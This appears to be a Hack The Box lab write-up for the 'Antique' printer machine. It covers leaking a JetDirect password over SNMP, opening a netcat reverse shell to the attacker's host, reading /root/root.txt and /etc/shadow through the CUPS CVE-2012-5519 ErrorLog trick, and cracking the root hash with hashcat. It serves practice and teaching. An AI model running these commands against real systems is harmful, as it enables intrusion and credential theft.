

---
---

# HTB - Printer Exploitation Track - Antique


- I couldn't do anything on the telnet connection apart from grab the banner, because I don't know the password

- I came across this site:

`http://www.irongeek.com/i.php?page=security/networkprinterhacking`

- It says that JetAdmin uses SNMP and so I did a UDP scan for SNMP:


- And it is using SNMPv1 (according to NMAP)

- But if we use snmpwalk - **we see that v2 is being** used:

```bash
snmpwalk -v 1 -c public 10.129.62.107

```


```bash
snmpwalk -v 2c -c public 10.129.62.107

```


**<u>Leak the password</u>**
- According to this article, some JetDirect printers will leak the password (in Hex) if you send a SNMP GET request to a vulnerable printer:
<https://www.exploit-db.com/exploits/22319>

- Using snmpwalk we can add a **.1** to the end to **query ALL**:

```bash
snmpwalk -v 2c -c public 10.129.62.107 .1

```


- We get the hex back, and can decode it with CyberChef:


- We get the password:
**P@ssw0rd@123!!123"#%&'01345789BCIPQTWXaetuy**

- And we are connected (no username - just the password):


If the commands doesn't work - close the session and start a new session

- We can use the exec command to execute system commands:


- Set up a listener
- Execute a reverse shell:

```bash
exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.29 4444 >/tmp/f

```




- Looking at open ports - we find 631 (Internet Printing Protocol (IPP)) is open:


<https://book.hacktricks.xyz/network-services-pentesting/pentesting-631-internet-printing-protocol-ipp>

- We can curl to find out more:

```bash
curl http://127.0.0.1:631

```


- Cups version:


- Looking online, we find an exploit for this version CVE-2012–5519:


- There is a metasploit module for it:
<https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/escalate/cups_root_file_read>

- But we don't need to use it. We can extract the info from it and just use that:

Read file as root:

- First we need to set the env variable for **ErrorLog** to the file we want to read:

```bash
cupsctl ErrorLog=/root/root.txt

```


- Then we need to send a GET request to **/admin/log/error_log?** :


- We can go further and read /etc/shadow and get the root hash:


- Find the encryption method with:

```bash
grep ENCRYPT_METHOD /etc/login.defs

```


- I don't know if hashcat will find it but it was taking ages:

```bash
hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```